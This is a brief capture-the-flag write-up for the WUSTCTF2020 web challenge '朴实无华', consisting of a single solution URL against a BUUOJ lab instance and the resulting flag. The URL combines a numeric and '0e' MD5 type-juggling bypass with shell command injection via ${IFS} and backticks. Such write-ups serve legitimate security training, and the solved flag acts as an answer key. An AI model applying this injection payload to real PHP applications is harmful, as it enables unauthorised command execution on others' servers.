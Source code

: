 # Web

## [WUSTCTF2020]朴实无华

> 题解

```
http://729bdfe8-f719-4b8a-9705-b075ed2dd1a3.node3.buuoj.cn/fl4g.php?num=7e4&md5=0e215962017&get_flag=more${IFS}`ls`
```

> flag{84c308c4-9e25-431d-9760-cf9dd3287ba0}